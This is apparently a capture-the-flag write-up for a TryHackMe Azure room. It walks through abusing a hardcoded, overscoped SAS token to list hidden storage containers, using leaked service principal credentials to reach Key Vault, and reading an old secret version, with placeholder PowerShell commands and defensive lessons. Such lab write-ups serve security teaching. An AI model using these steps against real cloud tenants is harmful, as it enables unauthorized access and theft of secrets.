



# 🗝️ TryHackMe — CryptoCabana (Cloud Writeup)

| | |
|---|---|
| **Category** | Cloud |
| **Difficulty** | Medium |
| **Points** | 90 |
| **Tags** | Cloud, Azure, Storage, Key Vault |

---

---

## 📝 Room Briefing

> By the time he made it back from the breakfast buffet, his wallet had already moved on without him. The transaction was signed, properly signed, just not by him.
>
> He'd backed his seed phrase up weeks ago, into the CryptoCabana kiosk's vault — the one whose landing page promised, in exactly four words, "Backed up. Sleep easy." Somewhere between that promise and this morning, something else got a good look at what was supposed to stay behind glass.
>
> Objective: find out what the kiosk is quietly trusting to reach into storage on its own, and see how much further that trust actually extends.

Every line in that briefing mapped directly to a step in the attack chain.

---

## 🔍 Recon

Target: Azure Storage static website endpoint

Pulled the page source and found a linked `app.js`, which contained a hardcoded SAS token used by the "Back it up" button:

const STORAGE_ACCOUNT = "<storage-account-name>";
const BACKUPS_CONTAINER = "backups";
const BACKUP_SAS = "?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z...";

Key detail: `srt=sco` scopes the SAS to service + container + object level, and `sp=rl` grants read + list — far broader than the single "upload your backup" action it was meant to support. This is the "something else got a good look at what was supposed to stay behind glass" from the briefing.

---

## 🎯 Foothold — Storage Enumeration via Overpermissioned SAS

**1. Enumerated containers at the account level** using the leaked SAS token:

Invoke-WebRequest -Uri "<storage-account-blob-endpoint>/<SAS-token>&comp=list" -UseBasicParsing

This revealed containers never linked from the kiosk's front page:

$web
backups
vault      <- hidden, never referenced anywhere in the UI

**2. Listed blobs inside the hidden `vault` container:**

Invoke-WebRequest -Uri "<storage-account-blob-endpoint>/vault<SAS-token>&restype=container&comp=list" -UseBasicParsing

Found:
- backup-service-account.json — a leaked Azure AD service principal (client_id, client_secret, tenant_id, Key Vault URI)
- seed_phrase.txt — decoy data, decimal-encoded fake seed phrase (a distraction)

---

## 🚀 Privilege Escalation — Service Principal → Key Vault → Rotated Secret Recovery

**3. Authenticated to Azure AD** with the leaked service principal to get an OAuth token scoped to Key Vault:

$body = @{
    grant_type    = "client_credentials"
    client_id     = $clientId
    client_secret = $clientSecret
    resource      = "https://vault.azure.net"
}
$token = Invoke-RestMethod -Method Post -Uri "https://login.microsoftonline.com/<tenant-id>/oauth2/token" -Body $body

**4. Enumerated Key Vault secrets:**

key-shard-1
key-shard-2   <- had 2 versions
key-shard-3
master-key

**5. Version history abuse** — key-shard-2 had two versions. The current value was a rotated dummy with an internal note admitting the old value was still recoverable. This matched @0xMia's in-room hint: "if a value looks freshly rotated, ask yourself what it looked like five minutes before that."

Invoke-RestMethod -Uri "<key-vault-uri>/secrets/key-shard-2/<old-version-id>?api-version=7.4" -Headers $headers

**6. Reassembled the three real shards** in order to recover the flag.

---

## 🏁 Result

**Room completed** ✅ — 90 points, task captured.

---

## 🧠 Lessons / Takeaways

1. Never issue a SAS token with broader scope than the operation needs — a "write my one backup file" action should never carry account-level list and read rights.
2. "Hidden" containers are not access control — anonymous listing at the storage-account level defeats security-through-obscurity instantly.
3. Never leave service principal credentials sitting in accessible blob storage — treat any blob container the way you'd treat a public S3 bucket until proven otherwise.
4. Key Vault secret rotation isn't the same as revocation — old versions remain retrievable unless explicitly disabled/purged, so rotating a leaked secret without disabling prior versions leaves the door open.

---

Writeup for the TryHackMe room "CryptoCabana" (Byte Lotus series). Flag redacted/replaced with placeholder per THM's writeup guidelines
